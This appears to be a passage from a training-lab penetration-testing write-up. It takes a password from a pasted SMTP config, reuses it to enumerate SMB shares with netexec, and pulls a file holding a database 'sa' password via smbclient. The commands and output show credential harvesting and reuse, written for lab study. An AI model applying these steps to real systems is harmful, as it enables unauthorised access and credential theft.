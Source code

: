 ```
01:27 PM | Operator: What do you need help with?
01:36 PM | alex: I run into an issue with the web config file on the system for the smtp server. do you mind to take a look at the config?
01:38 PM | Operator: Of course
01:42 PM | alex: here it is:

 1smtp {
 2    host=smtp.web.dev.inlanefreight.htb
 3    #port=25
 4    ssl=true
 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"
 8}

[SNIP]
```

```yaml
credentials:
    username: alex
    password: 'lol123!mD'
    host: 10.129.97.158 (WINMEDIUM)
    port: 445 (SMB)
```

#### SMB Footprinting

```
┌──(nabla㉿kali)-[~]
└─$ netexec smb 10.129.97.158 -u alex -p 'lol123!mD' --shares

[SNIP]

SMB         10.129.97.158   445    WINMEDIUM        [*] Enumerated shares
SMB         10.129.97.158   445    WINMEDIUM        Share           Permissions     Remark
SMB         10.129.97.158   445    WINMEDIUM        -----           -----------     ------
SMB         10.129.97.158   445    WINMEDIUM        ADMIN$                          Remote Admin
SMB         10.129.97.158   445    WINMEDIUM        C$                              Default share
SMB         10.129.97.158   445    WINMEDIUM        devshare        READ,WRITE      
SMB         10.129.97.158   445    WINMEDIUM        IPC$            READ            Remote IPC
SMB         10.129.97.158   445    WINMEDIUM        Users           READ   
```

```
┌──(nabla㉿kali)-[~]
└─$ smbclient --user='alex' --password='lol123!mD' //10.129.97.158/devshare

smb: \> ls
  .                                   D        0  Fri Jul 18 02:26:17 2025
  ..                                  D        0  Fri Jul 18 02:26:17 2025
  important.txt                       A       16  Wed Nov 10 10:12:55 2021

		10328063 blocks of size 4096. 5798685 blocks available
smb: \> get important.txt 
getting file \important.txt of size 16 as important.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)

smb: \> !cat important.txt 
sa:87N1ns@slls83
```
